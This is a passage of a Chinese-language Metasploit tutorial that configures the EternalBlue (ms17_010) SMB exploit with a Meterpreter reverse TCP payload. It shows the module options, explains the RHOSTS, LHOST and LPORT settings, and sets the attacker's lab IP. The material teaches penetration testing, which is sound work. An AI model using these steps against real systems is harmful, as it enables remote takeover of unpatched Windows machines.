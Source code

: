```shell-session
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

正如我们所见，通过`show payloads`在 Exploit 模块本身中运行命令，msfconsole 检测到目标是 Windows 机器，因此只显示针对 Windows 操作系统的有效负载。

我们还可以看到出现了一个新的选项字段，它与有效负载参数将包含的内容直接相关。我们将关注`LHOST`和`LPORT`（我们的攻击者 IP 和反向连接初始化所需的端口）。当然，如果攻击失败，我们总是可以使用不同的端口并重新发起攻击。

## 使用负载

是时候为 Exploit 模块和 payload 模块设置我们的参数了。对于利用部分，我们需要设置以下内容：

| **范围** | **描述**                                               |
| -------- | ------------------------------------------------------ |
| `RHOSTS` | 远程主机的 IP 地址，目标机器。                         |
| `RPORT`  | 不需要更改，只需检查我们是否在运行 SMB 的端口 445 上。 |

对于有效负载部分，我们需要设置以下内容：

| **范围** | **描述**                               |
| -------- | -------------------------------------- |
| `LHOST`  | 主机的IP地址，攻击者的机器。           |
| `LPORT`  | 不需要更改，只需检查端口是否已被使用。 |

如果我们想快速查看我们的 LHOST IP 地址，我们总是可以`ifconfig`直接从 msfconsole 菜单中调用该命令。

#### MSF - 利用和有效负载配置

```shell-session
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig

**[\*]** exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>


msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15

LHOST => 10.10.14.15


```